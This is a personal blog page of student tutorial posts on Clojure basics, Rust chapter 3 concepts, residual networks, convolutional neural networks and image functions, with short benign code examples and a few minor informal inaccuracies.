



Hi, I am Saai Sudarsanan
Blog
Clojure Fundamentals
Date: 2023-03-04
Dialect of Lisp, that runs on JVM, CLR and also targets JavaScript (Can be transpiled to JS). Many features were inherited from Lisp, but also adds on to it. Created by Rich Hickey. It has a big emphasis on concurrency, it is built into the language.
- Dynamic Language
- Flexibility
- Interactivity (Using REPL)
- Consise (they tend to be easier to write, less verbose)
- Exploration
- Focus on the problem
- Functional
- Hosted on the JVM
- Supports Concurrency
- Open Source
Functional Programming Languages
-
Functions as first class objects : Functions are the same as a integer or a string or any other data structure, they can be created and modified on the fly. They can be passed as parameters and be returned by another function.
-
Compose simple functions together to obtain a function, that targets a more complex purpose.
-
Pure Function : A function for a set of arguements always returns the same output, and is not affected by anything else.
-
Immutability : It can't be changed once it has been declared. It is important when concurrency comes into the picture. Avoids then need for locking a variable when multiple agents are needed to act on it.
-
Laziness : A programming language will only do, as much work as it is asked to do. In haskell, if
i = 1+2, the operation won't be performed until i is accessed. In clojure, it is not lazy in terms of mathematical operations, but it is in terms of sequences. We could generate a list of prime numbers.
Who uses Clojure ?
- Swym
- Boeing
- Cisco
- Netflix
- CitiGroup
- Walmart
- Salesforce
- HelpShift
Why Clojure ?
- Expressive, Elegant
- Good Performance
- Useful for the same tasks Java is
- Wrapper-free Java Access
- Powerful Extensibility
- Functional Programming and Concurrency
Clojure is a Lisp
- Dynamic
- Code as data
- Reader
- Small Core (Lesser Syntax)
- Sequences
- Syntactic Abstraction
Dynamic Development
- REPL - read-eval-print-loop
- Define functions on the fly
- Load and Compile code at runtime
- Introspection
- Interactive Environment
Atomic Data Types
- Arbitrary Precision Integers
- Doubles - 1.234
- BigDecimals - 1.234M
- Ratios - 22/7
- Strings - "fred" -> Only double quotes permitted
- Characters - \a \b \c
- Symbols - fred, ethel
- Keywords - :fred, :ethel
- Booleans - true false
- Only
falseandnilare logically false in clojure, everything else is logically true.
- Only
- Null - nil
- Regex Patterns - #"a*b"
Data Structures
- Lists - singly linked (grows at front)
(1 2 3 4 5) (fred ethel lucy) (list 1 2 3)
- Vectors - indexed access, grow at end
[1 2 3 4 5] [fred ethel lucy]// Anything can be a element of a vector
- Maps - key/value associations
- Unordered (Hash Map)
- Constant or Near Constant Time LookUp
{:a 1, :b 1, :c 3} {1 "ethel" 2 "fred"}
- Sets
#{fred ethel lucy}
- Everything Nests
- All are heterogeneous
Syntax
- Data Structures are the code
- Homoiconicity
- No more text-based syntax!
Java Evaluation

Clojure Evaluation

Interactivity, Programs Writing Programs and Syntactic Abstractions

The program generates the data structures and these data structures are then compiled. There are macros.
Expressions
- Everything is an expression
- All data literals represent themselves
- Except:
- Symbols -> Looks for binding to value, locally then globally.
- Lists -> A form of operation.
- Except:
Operations
- (op ...) -> general format of operations
- Clojure will try to evaluate the first thing inside the paranthesis as a function call.
- The open ends need not always be a data arguement and can be an expression or a function call, whose output is used.
- An op can be :
-
one of very few
Special Ops -
macro
-
expression which yields a function
-
Special Ops: (They may not be evaluated)
-
(
defname value-expr)- establishes a global variable
-
(
iftext-expr then-expr else-expr)- Conditional, evaluates only one of then/else.
-
Other Special Ops:
fn let loop recur do new . throw try set! quote var
-
-
Macros
- Supplied with Clojure
- Arguement forms are passed as data to the macro function, which returns a new data structure as a replacement for the macro call.
- Macro handling occurs at compile time.
(or x y) ; or is not primitive it can be defined in terms of if
becomes
(let [or__158 x]
(if or__158 or__158 y))
Many things built into other languages are just macros in Clojure.
Functions
- First Class Values
- Maps, Vectors and Sets and all are functions in Clojure
(def five 5)
(def sqr (fn [x] (* x x)))
(sqr five)
>>> 25
(def m{:fred :ethel :ricky :lucy})
(m :fred)
:ethel
Syntax Summary clj // java
(def i 5) ; int i = 5;
(if (zero? x) y z) ; if(x == 0)
; return y;
; else
; return z;
(* x y z) // x * y * z
(foo x y z) // foo(x, y, z);
(. foo bar x) // foo.bar(x)
Sequences
- Abstraction of Lisp Lists
- (seq coll)
- if collection is non-empty, return seq object on it, else nil
- (first seq)
- returns first element
- (rest seq)
- returns a seq of the rest of the elements, or nil if no more. All but the first.
Sequence Library
(drop 2 [1 2 3 4 5])
>>> (3 4 5)
(take 9 (cycle [1 2 3 4]))
>>> (1 2 3 4 1 2 3 4 1)
(interleave [:a :b :c :d :e] [1 2 3 4 5])
>>> (:a 1 :b 2 :c 3 :d 4 :e 5)
(partition 3 [1 2 3 4 5 6 7 8 9])
>>> ((1 2 3) (4 5 6) (7 8 9))
(map vector [:a :b :c :d :e] [1 2 3 4 5])
>>> ([:a 1] [:b 2] [:c 3] [:d 4] [:e 5])
(apply str(interpose \, "asdf"))
>>> "a,s,d,f"
(reduce + (range 100))
>>> 4950
Java Interoperability
(. Math PI)
>>> 3.14159265
(.. System getProperties (get "java.version"))
>>> "1.5.0_13"
(new java.util.Date)
>>> Thu Jun 05 12:37:32 EDT 2008
(doto (JFrame.) (add (JLabel. "Hello World")) pack show)
;expands to:
(let* [G__1837 (JFrame.)]
(do (. G__1837 (add (JLabel. "Hello World")))
(. G__1837 pack)
(. G__1837 show))
G__1837)
REPL
- Read Eval Print Loop
- Interactive Shell
- Used for exploratory Programming
- Provided a quick feedback cycle
- Connect to the application running in production
Clojure 1.11.1
>> "i am a string"
"i am a string"
; Equality
>> (= 1 2)
false
; Add
>> (+ 1 2 3 4)
10
; Multiply
>> (* 1 2 3 4)
24
; Return first element
>> (first [1 2 3 4])
1
; apply a function to all element in a sequence and return the resulting sequence
>> (map inc [1 2 3])
(2 3 4)
; Remove based on a condition (here zero? checks for = 0)
>> (remove zero? [1 0 2 0 3 0])
(1 2 3)
; Comments look like this
; if statement
>> (if true "hello" "bye")
"hello"
>> (if false "hello")
nil ; the else part returns nil automatically (if test-form then-form else-form)
>> (if (zero? 1) (inc 1) (dec 1))
0 ; 1 not equal to 0, so (dec 1) = 0
>> (if (zero? 0) (inc 1) (dec 1))
2 ; 0 equal to 0, so (inc 1) = 2
; do operator (allows us to wrap multiple forms together and run them as one expression)
>> (if true (do (println "hello") (println "world")) (do (println "bye") "good bye"))
hello ; this is a side effect of println
world ; this is a side effect of println
nil ; this is a return value of (println "world") and the return value of (println "hello") is ignored.
; in do, the return value is the return value of the expression that is evaluated last.
>> (do "clojure" "is fun")
"is fun" ; "clojure" is avoided and only "is fun" is returned by do, since it is the last form to be evaluated.
;when operator - used when there is no else part. Combination of if and do. It can also be written just using 'if' and 'do'.
>> (when true (println (+ 1 2)) (+ 1 4))
3 ; side effect of println
5 ; return value of 'when'
A valid clojure expression is called a form, every form returns a value. By convention, if a function returns a true/false(predicate function), we suffix it with a question mark. A function that does a mutataion, we suffix an exclamation mark.
CTRL + L is used to clear REPL
Rust Programming Concepts
Date: 2023-03-01
This post is my understanding of the common programming concepts, implemented in Rust. They cover stuff like,
They will help you lay a solid foundation on the Rust Programming Language.

Variables and Mutability
- Rust has a set of keywords, that are reserved for use only by the language. It is not allowed to use them as names of variables or functions. A list of keywords can be found here Keywords
- By default all variables are immutable in Rust. This is make it easier to write safe and concurrent code.
Create a new rust application using the command cargo new <app-name>
fn main(){ let x = 5; println!("The value of x is {}",x); x = 6; println!("The value of x is {}",x); }
- The Rust compiler generates a error message stating, that the immutable variable 'x' cannot be assigned twice.
- Immutability refers to
the state of not changing, or being unable to be changed.
We run the program using, cargo run command.
error[E0384]: cannot assign twice to immutable variable `x`
--> src/main.rs:4:5
|
2 | let x = 5;
| -
| |
| first assignment to `x`
| help: consider making this binding mutable: `mut x`
3 | println!("The value of x is {}",x);
4 | x = 6;
| ^^^^^ cannot assign twice to immutable variable
- The variables can be made mutable (changeable) by using the
mutcommand. Mutability makes the code more convenient to write, use it wisely. - According to my google searches, mutability doesn't have any impact of code generation i.e, doesn't make code slower or faster, and is left to the preference of the user.
We can now rewrite our old code
fn main(){ let mut x = 5; println!("The value of x is {}",x); x = 6; println!("The value of x is {}",x); }
We get the following result :)
The value of x is 5
The value of x is 6
Constants
- Rust also has constants, that are bound to a name. They are never allowed to change, there are a few key differences between
letandconst. - The naming convention for
constis to make all the characters UPPERCASE, with underscores representing spaces.
Differences b/w Let and Const
- No
mutin const. You cannot usemuton const. - const must be type annotated, i.e, their types must be explicitly defined by us and is not assumed by default.
- const can be declared in any scope, including global scope.
- const should be assigned only a value that is predefined, i.e, it cannot be assigned a value that is computed at runtime. This also means, that a function cannot return a const. We can assign const to basic operations though, that can be performed by the compiler at compile time, like
const THREE_HOURS: u32 = 60*60*3;and these expressions are called Constant Expressions, they are evaluated during the compile time. - const values are available for the entire runtime of the program in the scope in which they are declared, use them wisely, to depict values that you know, will not change, like the speed of light or the value of Pi, etc. Giving them definite names, will make it easier to maintain code.
Shadowing
This is another interesting concept, I have come across, shadowing allows us to overshadow the value that is seen by the compiler, like covering the face with a mask. The compiler will see only the latest value that we have defined for a variable in a particular scope. The following makes it easier.
fn main() { let x = 5; let x = x + 1; // Note that we are using the let to overshadow the variable. Cannot be possible without let, due to immutability. { let x = x * 2; println!("The value of x in the inner scope is: {x}"); } println!("The value of x is: {x}"); }
Output
The value of x in the inner scope is: 12
The value of x is: 6
- We are effectively recreating the variable by using the
letkeyword and not mutating it. - One more difference is, that we are not allowed to mutate a variable's type, but it can be done using shadowing.
Data Types
- Rust is statically typed language, which means it must know the types of all the variables at compile time. The compiler can also infer the type we might wanna use and set it accordingly, but either way, there must always be a type.
Scalar Types
- They have a single value, and we have 4 different scalar types in Rust.
Integer Types
- Integers are numbers without a fractional component.
- They can be signed (i) or unsigned (u). Signed Integers can be made negative, while Unsigned integers can only be positive.
- They can have lengths of 8, 16, 32, 64 or 128-bits.
(represented or i8 or u8 for 8-bits and similairly for the rest).
Signed Variants can store from : -(2^n-1) to +(2^(n-1)-1) Unsigned Variants can stroe from : 0 to 2^(n-1)-1 - They can also be inferred from the architecture (isize or usize).
- Rust defaults to i32.
Integers can be represented in several visual ways, like, hex, octal, binary, bytes or decimal.
Floating-Point Types
There are two primitive types for floating-point numbers, f32 and f64. The default is f64, and all floating-points are signed.
Numeric Operations
- All basic operations such as, addition, subtraction, multiplication, division and remainder are supported in Rust.
- Integer division truncates to the floor and returns the nearest integer.
-5/3 which is equal to -1.66 returns -1.
Boolean Type
- They have two values
trueorfalse. - Specified using the
boolkeyword.
Character Types
- Most primitive alphabetic type
- Used as
let c = 'z', and each character uses 4 bytes, and represents a Unicode Scalar Value, so you can now put emojis, chinese characters, etc, in your code!
Compound Types
- Used to group multiple values into one type. Rust has two primitive compound types: tuples and arrays.
Tuples
- They are used to group a set of variables with different datatypes into a single compound type. They are of fixed size and cannot grow or shrink once declared.
- Optionally we can also declare the type of each value in the tuple.
fn main() { let tup: (i32, f64, u8) = (500, 6.4, 1); }
// Getting values out of a tuple // Destructuring fn main() { let tup = (500, 6.4, 1); let (x, y, z) = tup; println!("The value of y is: {y}"); } // Indexing fn main() { let x: (i32, f64, u8) = (500, 6.4, 1); let five_hundred = x.0; // Indices start from 0 let six_point_four = x.1; let one = x.2; }
- A Tuple with no values is called a unit and represents an empty value or an empty return type. Expressions usually return the 'unit' when there is not return value.
Arrays
- Another way to group multiple values, but in arrays all values must have the same type.
- They also cannot grow or shrink in size.
fn main() { let a = [1, 2, 3, 4, 5]; let months = ["January", "February", "March", "April", "May", "June", "July", "August", "September", "October", "November", "December"]; let b: [i32; 5] = [1, 2, 3, 4, 5]; let c = [3; 5]; // Short hand for [3,3,3,3,3] } // Arrays can be Indexed in the following way: fn main() { let a = [1, 2, 3, 4, 5]; let first = a[0]; let second = a[1]; }
If an index that is trying the be retrieved is greater than the length of the array, rust panics and throws an IndexOutOfBounds error during runtime, this kind of check is not being performed in many low-level languages and leads to memory leakage and Invalid memory access.Rust hence ensures memory safety.
Functions
fn - allows declaration of new functions
main - most important function, entry point to the code
fn main() { println!("Hello, world!"); another_function(); // Calls the another_function() // A parameter 5, of type i32 is passed to the parameterized_function() parameterized_function(5,'a'); } // Declaration of another_function() fn another_function() { println!("Another function."); } // Using functions with parameters fn parameterized_function(x: i32,y:char) // We must declare the type of each parameter // Use , to define multiple parameters { println!("The value of x and y is: {x}{y}"); } /* Hello, world! Another function. The value of x and y is: 5a */
Statements and Expressions
- Statements : Instructions that perform an action and do not return a value, example is the
printlnor thelet. They cannot be assigned to another variable. - Expression : Instructions that perform an action and return a value. They can return a value that can be assingned directly to another variable.
5+6is an expression. Calling a function or a macro is also an expression, since it returns a value. Inlet x = 5, even5is an expression!
Returning values with Functions
- Implicitly all functions return the return value of the last expression, but with can override that feature using the
returnkeyword. - We must also mention the return type using the
->.
fn five() -> i32 { 5 // Returns 5 (implicitly) } fn plus_one(x: i32) -> i32 { x + 1 // Returns the value of x + 1 } fn plus_two(x: i32) -> i32 { return x + 2 // Returns the value of x + 2 (explicitly) } fn main() { let x = five(); println!("The value of x is: {x}"); }
Comments
#![allow(unused)] fn main() { let x = 5; // Single Line Comment /* Multiline comment. */ }
Control Flow
- Control flow in terms of if-conditions is very similar to other languages
If Condition
fn main() { let number = 6; if number % 4 == 0 { // The condition must be an expression returning a bool type. println!("number is divisible by 4"); } else if number % 3 == 0 { println!("number is divisible by 3"); } else if number % 2 == 0 { println!("number is divisible by 2"); } else { println!("number is not divisible by 4, 3, or 2"); }
- We can also use if in a let declaration like this,
- But both the if and the else bodies, must respect the type of the variable being declared and must both return the same type. This is because variable must have a single type.
#![allow(unused)] fn main() { // This will run let number = if condition { 5 } else { 6 }; // This wont let number = if condition { 5 } else { "six" }; } }
- First if condition is checked and then else if conditions are checked in the same order and then the else condition for all other cases.
Loops
- The loop keyword makes rust run the loop's body over and over again until we tell it to stop explicitly by providing an end condition.
fn main(){ loop{ println("Hello!"); } } // Prints "Hello!" an infinite number of times, till I hit Ctrl+C
- One may also choose to use the
breakkeyword, that stop the loop. - Or the
continuekeyword, that tells the loop to move on to the next iteration, without executing what follows the continue statement in the body of the loop.
// By default break and continue apply to the inner loop, but we can specify a label to the loop, to mention which loop we want to break. fn main() { let mut count = 0; 'counting_up: loop { println!("count = {count}"); let mut remaining = 10; loop { println!("remaining = {remaining}"); if remaining == 9 { break; } if count == 2 { break 'counting_up; } remaining -= 1; } count += 1; } println!("End count = {count}"); }
While and For Loops
fn main() { let mut number = 3; while number != 0 { // If the above condition is true, the loop body runs println!("{number}!"); number -= 1; }// Else Exit the loop println!("LIFTOFF!!!"); } // Using a while loop to loop through an array [Not preferred] fn main() { let a = [10, 20, 30, 40, 50]; let mut index = 0; while index < 5 { println!("the value is: {}", a[index]); index += 1; } } // Using a for loop for the same purpose fn main() { let a = [10, 20, 30, 40, 50]; // This is a more elegant way to do the same thing for element in a { println!("the value is: {element}"); } // 3 2 1 LIFTOFF!!! .. generates an array and .rev reverses it. for number in (1..4).rev() { println("{number}"); } println("LIFTOFF!!!"); }
This is my summary of the Rust Lang Book Chapter 3. Hope you found it interesting. I will be writing code walkthroughs in the future, stay tuned :)
Residual Networks
Date: 2021-08-13
Deep Convolutional Networks are said to prevail over Wider Networks during performance, but, these networks are difficult to train. Image Classification and Image Recognition tasks have benefited greatly from deeper networks.
Convergence :
A Model is said to have been converged, when additional training will not improve the accuracy of the model.
 Illustration of Convergence in a model.
Illustration of Convergence in a model.
**Vanishing Gradient : **During Back-propagation, the derivative of the error function with respect to the weights have to be calculated, what if this derivative is too small, and then we apply the chain rule. All these small derivatives, contribute to the final value of the gradient making it extremely tiny.

So, when we take a step according to the magnitude of this resulting gradient, it is a very small step and the model almost never converges.
 Sigmoid(Left) — Derivative of Sigmoid(Right)
Sigmoid(Left) — Derivative of Sigmoid(Right)
So, from this we get to know that the sigmoid activation’s derivative becomes super small. Making the gradient small, ultimately. In short networks, this problem isn’t that prevalent, but in deep ones, it is.

When the Derivative w.r.t Weight becomes too small during back propagation in the initial layers, the update on the Weight in turn becomes small too. As a result of this “Vanishing Gradient”, the Initial layers of the model, train too slowly or stay the same. This makes it difficult for the model to converge.
**Solution : **Batch Normalization, it is making sure that the input to the activation function is always such that, the derivative doesn’t become too small.

This however can only be used to an extent. There seemed to be a limit as to the number of layers you can stack onto a network before facing the vanishing gradient problem.
ReLU for activation is another method we can use to help solve the vanishing gradient problem.
Now, another problem is degradation or saturation of accuracy over increasing the number of layers. This degradation is not being caused by over fitting, since the training error also increases. Then, what is causing this degradation?
 See how the training error for the 56 layer network is also lower that that of the 20 layer one. This degradation is hence not being caused by over fitting.
See how the training error for the 56 layer network is also lower that that of the 20 layer one. This degradation is hence not being caused by over fitting.
To investigate this further, they constructed a deep model and compared it with its shallower counter part.
The Experiment :
They added layers of identity mapping and copied the other layers from the shallow model to construct the deeper network.

So, this network will essentially learn the same function as the shallow model, the extra layers being, just identity mappings.
This constructed model gave training errors no higher than its shallower counterpart.
Then why isn’t it easy for a deeper model, completely trained(not constructed), to just learn the identity mapping and give us an output, that is not better, but not worse either.
When tested a fully trained model(of the same dimensions), gave a less accurate output compared to the constructed one.
It seems that learning the identity function is just as hard as learning any other function for a model. So, to get a way around this we made residual networks.
Residual Connections :
 Residual Connection
Residual Connection
The above block is called a Residual Block, or just give it any fancy name you want, but the important part is what it does.
Lets say, you want the model or particular set of layers to learn the function H(x),
Well what can we do? Just sit and hope the model learns the function, or you go about making it learn. How though?

So, we just gotta make F(x) zero to get a identity mapping, and hypothesize that it is now easier to fit F(x).
Adding, these shortcut connections don’t add any extra parameters or any extra complexity to the model. Actually shortcut connections had been used for a long time before even the existence of this paper, to address the vanishing/exploding gradient issue and in highway networks, where they were used with gating-functions.
Highway Networks were just another attempt to increase the model depth, but haven’t been very successful at it.
 Structure of a Highway Network
Structure of a Highway Network
Residual Representations, have been used in CG and Low-Level Vision tasks to solve Partial Differential Equations and in Image Recognition operations.
Woah, how is it magically easier to fit the residual function F(x)?
I will try explaining this part, but the paper explains it super well, I encourage you all to read it.
So remember when we constructed a deeper model, this model can approximate the function that can be approximated by a shallower counter-part, along with identity mappings that make it deep.
Now this is where it gets interesting, remember how we face a degradation problem because it not easy to make multiple non-linear layers learn the identity mapping.
If we make the residual learning reformulation, we’ll end up giving it x and tell it to learn a function such that the the output will be x.
To be precise, the multiple non-linear layers will simply be driven to learn the zero function or its approximate as the residual function F(x), if it is optimal, that is the error if H(x) were a identity mapping is lesser than in any other case.
This way we are sort of preconditioning the multiple non-linear layers to approximate the function, which is better than learning it own your own.
 H(x) = Identity Mapping
H(x) = Identity Mapping
Why should the multiple non-linear layers learn the zero function, because remember we want the layers to learn F(x), not H(x), and then we add **x **to the result and get H(x).
 And there you go, we have the identity mapping in place
And there you go, we have the identity mapping in place
In real world scenarios, there might be other functions that are optimal, not just the identity function, for example if the zero function is found to be more optimal, the multiple non-linear layers will find it easier to find ways to deviate from the identity mapping in order to get a zero function, rather than learning it entirely on its own.

Well, philosophically speaking, humans need such guides to help them achieve, but, sadly not a lot get such guidance.
The Math :
Now, the math, the researchers have adopted the strategy of applying residual learning to every few stacked layers.

This is the ReLU activation function, can you find out why it handles the vanishing gradient problem, better than Sigmoid?

Comparison between, VGG Nets, Plain Networks and ResNets :

The ResNet model has comparably lower complexity and fewer filters compared to the VGG Nets. It has 3.6 Billion Floating Point Operations, which is only 18% of VGG Nets which has a whopping 19.6 Billion Floating Point Operations. The Plain Network has 3.6 Billion FLOPs too, but is less accurate.
Legacy
ResNets were used in the ImageNet competition, where they trained on 1.28 Million training images, and evaluated on 50k validation images. They were tested on 100K test images and were reportedly having the top-1and top-5 error rates. It also achieved 1st place in ILSVCRC 2015.
The ResNet-1202 was able to overfit the CIFAR10 dataset, and yes 1202 means 1202 layers!! Take a moment to thank ResNets for making it possible.
The Paper came out in 2015, I looked up Deep Learning on Google Trends,

I would say that it was either perfectly timed or it was the key factor in popularizing Deep Learning.
References :
Please excuse me if there are any flaws, and do correct me.
Thank you for reading.
What are Convolutional Neural Networks?
Date: 2021-05-14
Images Source — Google
First things first, how are images even stored in a computer?
 Image Credits : PacktPub
Image Credits : PacktPub

In the above image, look how the brighter section of the channel plotted is the corresponding colour. Red in first channel, green in second, blue in the third.
These 3 channels or matrices come together to give us different colours, each element of the matrix denotes a pixel value ranging from 0 to 255.
Gray-scale Images have one channel in them, in further discussion, when I refer to image, it is a gray-scale image.
Why not use just traditional neural networks?
 Image Credit : DLpng
Image Credit : DLpng
Input Size: For every small increase in the size of the input matrix, the number of parameters that have to be trained in the network increases greatly.
For Example: If we had an image size of 150 x 150 x 3, indicating a 150 x 150 image with 3 colour channels, we would have to train 67,500 parameters, but for a 160 x 160 x 3 image we would have to train 76,800 parameters. That’s around 9000 parameters for the addition of just 10 pixels on each side!
These are just small images, most images we deal with in Deep Learning problems are easily over 500 pixels in height and width. Training these many parameters will eventually lead to over-fitting and increased training times.
Spatial and Translation Variance: A traditional neural network can’t gives different outputs for the cat in the bottom left corner of the picture and the same cat in the top right corner of the picture. This is a major drawback since, we cannot possibly train the model on every single variation of the picture!
It is just not feasible!
That’s the reason why we need Convolutional Neural Networks…
 Images Source — Google
Images Source — Google
CNN’s are the visual cortex of the deep learning world. They don’t train on the values of the pixels, but rather remember the features in the object by using filters.
 The Best Illustration I could find for a convolution operation : Images Source — Google
The Best Illustration I could find for a convolution operation : Images Source — Google
A Convolutional kernel is applied on the image channel and the value is stored and a feature-map is generated, convolution is further performed on the same feature map to ultimately extract the features in the image.
Every Convolutional Kernel has specific properties, some can detect edges in the image, some can blur the image, but ultimately they preserve the features and discard any spatial data, like what angle the object is in with respect to the vertical or what direction the object is facing. This is why, CNN’s are preferred against traditional networks.
 Image Credit: Blogs SAS
Image Credit: Blogs SAS
Have a look at this notebook, I created to visualise the outputs of each layer, Intel Image Classification(Feature Map Extraction) Explore and run machine learning code with Kaggle Notebooks | Using data from Intel Image Classificationwww.kaggle.com
Why does this work?
Each Filter is used to efficiently identify a feature, how, take a look at this,
 Images Source — Google
Images Source — Google
The receptive field is the part of the input considered for feature identification, it is equal to the filter-size, the size of the filter is hence, a hyper-parameter.
KERNEL : One channel in a filter FILTER : Combination of the 3 kernels used for the 3 different channels
The Receptive Field in ‘Fig 1’ is multiplied and summed with the filter, the given filter is able to identify the feature and hence we get a large value, but in case the filter is held against a receptive field that doesn’t contain the feature,
 Images Source — Google
Images Source — Google
The filter when held over a different receptive field, gives a value of 0 or near zero, indicating the absence of the feature it represents in that image.
After every Convolution, operation followed by a few steps, the features become more and more undefinable, take a look,
 The Full Image Size(150 x 150)
The Full Image Size(150 x 150)
After 1 Convolution Operation,

It is kind of describable at this layer, now these are called feature maps and are not to be called images anymore.
Look how the feature size has reduced, this is due an operation called pooling. That is a intermediary step.
After 2 Operations,

OKAY, things have gotten worse, now if I haven’t seen the initial image, I won’t be able to identify this as a image of buildings.
After 3 Operations,

Its totally gone now, indescribable to human eyes, but these feature maps are further extracted to this state,

These are the features that will be detected or searched for by the filters of the CNN, these feature maps will be flattened and learnt by the fully connected layers later-on.
CNN’s were designed by bio-mimicry of the mammalian visual cortex, so the next time you call yourself an idiot, remember, your idiocy isn’t a product of your marks or grades or ranks, it is a product of your own belief. So, its time to start believing in yourself, now continue this article with this refreshing thought.
The filters are optimised by the Back propagation algorithm.
Filters can be applied on multiple channels too,
 Actual Representation of a Filter in a CNN, C = No. of channels and F = Kernel Size, defined by us. : Images Source — Google
Actual Representation of a Filter in a CNN, C = No. of channels and F = Kernel Size, defined by us. : Images Source — Google
You might have noticed that, filters reduce the image’s size, causing unwanted shrinking of the image, which might also result in the loss of data in the boundaries of the image.

In the first image, the padding is ‘valid’, the other 3 images have a padding as ‘same’. The 3rd image being given a padding of 1, will be able to give rise to the image of the same size. Padding, simply refers to zeros being added to the edges of the image, along the rows and columns.
**Stride **: The number of pixels by which the filter moves after when performing each convolution operation is the stride.
 Images Source — Google
Images Source — Google
Pooling
Pooling is done in order to** reduce the dimensions of the feature maps**, which ultimately ends up reducing the number of parameters in the model. The no. of parameters must be reduced if possible, in order to reduce computational pressure. This also allows the model to be even more spatially invariant, since we are discarding any remaining spatial data.
 Images Source — Google
Images Source — Google
This operation is also done by moving kernels over the feature map.
 How stride affects the size of the output : Images Source — Google
How stride affects the size of the output : Images Source — Google
Max Pooling selects the brightest pixel, and therefore emphasising the sharp edges in the images. It works well for images with a black or dark background, where there will be a sharp drop in the distribution of pixel values in the kernel.
Average Pooling outputs the average and smooths out the image, it is doesn’t do a great job in detecting sharp edges, but most of the image data is preserved, since nothing is eliminated and all values in the kernel are involved in the operation.
If we want to reduce dimensions anyway, why do we use padding?
Simple, Pooling doesn’t cause as much data loss, it almost never. But, when dimensionality reduces by filters, the valuable data in the boundaries is lost, this is uncontrollable, without padding, whereas, Pooling is controlled by us by addition and removal of pooling layers.
Activation : ReLU (Rectified Linear Unit)
Why ReLU?
 F(x) = max(0,x) : Images Source — Google
F(x) = max(0,x) : Images Source — Google
The ReLU function completely eliminates the possibility of negative values in the filters. It acts and looks like a linear function when the input is above zero, but its non-linearity is visible only when the input value is less than zero.
This property of the ReLU unlike all other activation function makes it possible for the model to learn complex relationships in the data.
Networks that use the rectifier function for the hidden layers are referred to as rectified networks.
ReLU also is easy to code, and is faster to implement in Neural Networks, which implies, lesser computational requirements.
It has been found that rectifying non-linearity is the single most important factor in improving recognition accuracy of the model.
All this makes ReLU suitable for CNN’s.
Finally, the fully connected layers,
 Images Source — Google
Images Source — Google
The Flatten layer is a simple process where the 2D matrix is converted to a 1D Matrix for giving it as an input for the Fully Connected layers.
The Fully Connected Layer is just a normal Feed-Forward Neural network that gives as output a set of “n” probabilities for an input image being a part of one of “n” classes. We use a Soft-max Activation to achieve this.
 The Soft-max Activation Function : Images Source — Google
The Soft-max Activation Function : Images Source — Google
Thank You, your valuable feedback is definitely appreciated.
Remember never to stop having fun when creating new things : )
Image Functions, Pixels and Types of Image Processing
Date: 2021-07-13
Some Mathematics to begin with….
In my previous post, I gave a definition, and now I’m obligated to elaborate,

An Image maybe defined as a 2D function f(x,y), where x and y are spatial coordinates and the amplitude of f at any pair of coordinates is the intensity or the grey level at that point.
Any Analog Image has to be Sampled and Quantised in order to convert it into digital images for it to be read by our computer. Else, we will be facing the** ‘infinity’ **problem.
